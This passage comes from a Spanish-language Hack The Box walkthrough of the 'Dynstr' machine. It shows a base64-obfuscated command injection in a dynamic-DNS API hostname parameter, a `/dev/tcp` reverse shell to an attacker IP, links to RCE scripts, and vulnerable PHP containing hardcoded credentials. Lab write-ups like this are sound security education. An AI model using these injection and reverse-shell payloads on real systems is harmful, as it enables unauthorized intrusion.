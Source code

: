 Y ejecutamos:

```bash
❱ python3 fuzz_myip.py 
[+] http://dyna.htb/nic/update?hostname=$(echo "aWQgfCBuYyAxMC4xMC4xNC4xNDYgNDQzMwo=" | base64 -d | bash).no-ip.htb&myip=10.10.14.146
# Se queda acá esperando...
```

Y si revisamos nuestro listener:

![352bash_scripting_fuzzingHOSTNAME_idRCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/dynstr/352bash_scripting_fuzzingHOSTNAME_idRCE.png)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/dynstr/352google_gif_yes_manwithtie.gif" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 70%;"/>

Peeeeerfecto, conseguimos ejecutar comandos en la máquina como el usuario **www-data** (: ahora veamos como entablar una **reverse Shell**.

```bash
❱ echo "bash -i >& /dev/tcp/10.10.14.146/4433 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQzMyAwPiYxCg==
```

La copiamos en el payload, nos ponemos en escucha, ejecutamos yyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/dynstr/352bash_scripting_fuzzingHOSTNAME_wwwdataRevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Obtenemos nuestra **Shell** como el usuario **www-data**, hagámosla linda ([tratamiento de la **TTY**](https://notes.dettlaff.xyz/recursos/tratamiento-de-la-tty)) y sigamos...

...

Les dejo el script, con él podremos conseguir una **Shell** en el mismo programa (:

> [dynamicDNSapi_RCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/dynstr/dynamicDNSapi_RCE.py)

O algo nuevo que no había probado, un script en `ruby` que envíe simplemente la petición en busca de la reverse Shell, únicamente tenemos que ponernos en escucha.

> [dynamicDNSapi_RCE.rb](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/dynstr/dynamicDNSapi_RCE.rb)

...

# Mov Lateral : www-data -> bindmgr [#](#wwwdata-bindmgr) {#wwwdata-bindmgr}

Acá el código que actualiza el servidor DNS por si le quieren echar un ojo:

```php
<?php
  // Check authentication
  if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']))      { echo "badauth\n"; exit; }
  if ($_SERVER['PHP_AUTH_USER'].":".$_SERVER['PHP_AUTH_PW']!=='dynadns:sndanyd') { echo "badauth\n"; exit; }

  // Set $myip from GET, defaulting to REMOTE_ADDR
  $myip = $_SERVER['REMOTE_ADDR'];
  if ($valid=filter_var($_GET['myip'],FILTER_VALIDATE_IP))                       { $myip = $valid; }

  if(isset($_GET['hostname'])) {
    // Check for a valid domain
    list($h,$d) = explode(".",$_GET['hostname'],2);
    $validds = array('dnsalias.htb','dynamicdns.htb','no-ip.htb');
    if(!in_array($d,$validds)) { echo "911 [wrngdom: $d]\n"; exit; }
    // Update DNS entry
```